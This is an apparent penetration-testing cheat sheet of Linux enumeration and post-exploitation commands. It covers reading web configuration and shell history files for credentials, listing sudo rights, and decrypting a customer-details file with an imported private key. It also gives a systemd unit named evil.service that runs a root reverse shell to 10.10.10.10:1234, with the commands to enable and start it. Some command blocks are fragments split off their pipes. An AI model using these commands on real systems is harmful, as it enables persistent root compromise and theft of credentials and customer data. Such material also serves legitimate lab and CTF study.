 # Useful Commands
Handy commands for enumeration and system interaction

## View file content
```bash copy
less secret.txt
```
- Views `secret.txt` in a scrollable pager for easy reading.

## Display web configuration
```bash copy
cat /var/www/html/configuration.php
```
- Shows content of `configuration.php` (e.g., for web apps like Joomla).

## View command history
```bash copy
cat ~/.*history
```
- Displays user’s command history files (e.g., `.bash_history`).

```bash copy
less
```
- Pipes history output to a scrollable pager for easier viewing.

## List sudo permissions
```bash copy
sudo -l
```
- Lists commands the current user can run with `sudo`.
- `-l`: List allowed commands.

## Import GPG key
```bash copy
gpg --import proiv.key
```
- Imports a GPG private key for decryption.
- `--import`: Imports the key file `proiv.key`.

## Decrypt GPG file
```bash copy
gpg --decrypt CustomerDetails.xlsx.gpg
```
- Decrypts the GPG-encrypted file `CustomerDetails.xlsx.gpg`.
- `--decrypt`: Decrypts the file.

```bash copy
> decrypted.xlsx
```
- Redirects decrypted output to `decrypted.xlsx`.
- **Cipher decryption resource**: [Boxentriq - Cipher Decryption Tools](https://boxentriq.com/)

## Create malicious systemd service
```bash copy
nano /tmp/evil.service
```
- Opens `nano` to create or edit `evil.service` in `/tmp`.

### Systemd service file
```
[Unit]
Description=This is not the evil service you are looking for...

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'

[Install]
WantedBy=multi-user.target
```
- Defines a systemd service that runs a reverse shell as root.
- `Type=simple`: Basic service type.
- `User=root`: Runs as root.
- `ExecStart`: Executes a reverse shell to attacker IP 10.10.10.10 and port 1234.
- `WantedBy=multi-user.target`: Activates during multi-user boot.

### Enable systemd service
```bash copy
/bin/systemctl enable /tmp/evil.service
```
- Enables the `evil.service` to run at boot.
- `enable`: Links service to startup.

### Start systemd service
```bash copy
/bin/systemctl start evil
```
- Starts the `evil` service immediately.
- `start`: Runs the service.